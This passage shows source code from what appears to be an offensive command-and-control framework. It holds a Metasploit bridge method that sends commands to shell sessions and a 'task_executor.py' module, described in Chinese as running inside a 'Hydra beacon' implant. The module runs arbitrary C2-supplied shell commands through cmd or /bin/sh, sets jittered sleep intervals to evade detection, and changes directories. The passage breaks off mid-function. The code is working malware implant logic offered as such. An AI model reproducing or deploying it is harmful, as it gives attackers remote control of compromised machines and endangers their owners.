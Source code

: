 ```python

    def interact_with_session(self, session_id: str, command: str):
        """Sends a command to an active shell session."""
        print(f"[*] MSF Bridge: Sending '{command}' to session {session_id}")
        return self.client.sessions.session(session_id).write(command)
```

---

### 模块 3: 任务执行引擎 (`task_executor.py`)

此模块在“九头蛇信标”内部运行，负责解析和执行来自 C2 的任务。

```python
# task_executor.py
import subprocess
import os
import platform
import time

def execute_task(task_string: str):
    """Parses and executes a task string, returns the output."""
    parts = task_string.split(' ', 1)
    command = parts[0]
    args = parts[1] if len(parts) > 1 else ""

    try:
        if command == 'shell':
            if platform.system() == "Windows":
                # Use 'cmd /c' to run the command in a new command prompt
                proc = subprocess.Popen(['cmd', '/c', args], stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE, shell=True)
            else:
                # Use '/bin/sh -c' for POSIX systems
                proc = subprocess.Popen(['/bin/sh', '-c', args], stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        
            stdout, stderr = proc.communicate(timeout=30)
            output = stdout + stderr
            return output.decode('utf-8', errors='ignore')

        elif command == 'sleep':
            # Format: sleep <seconds> [jitter_percent]
            # e.g., sleep 60 20  (sleeps for 60s +/- 20%)
            params = args.split()
            base_sleep = int(params[0])
            jitter = int(params[1]) if len(params) > 1 else 0
        
            jitter_amount = (base_sleep * jitter / 100)
            sleep_time = base_sleep + (2 * jitter_amount * (os.urandom(1)[0] / 255) - jitter_amount)
        
            return f"ACK: Set sleep to {base_sleep}s with {jitter}% jitter. Next sleep: {sleep_time:.2f}s"
            # The actual sleep is handled by the beacon's main loop

        elif command == 'cd':
            os.chdir(args)
            return f"Changed directory to: {os.getcwd()}"

        else:
            return f"ERROR: Unknown command '{command}'"
        
    except FileNotFoundError:
```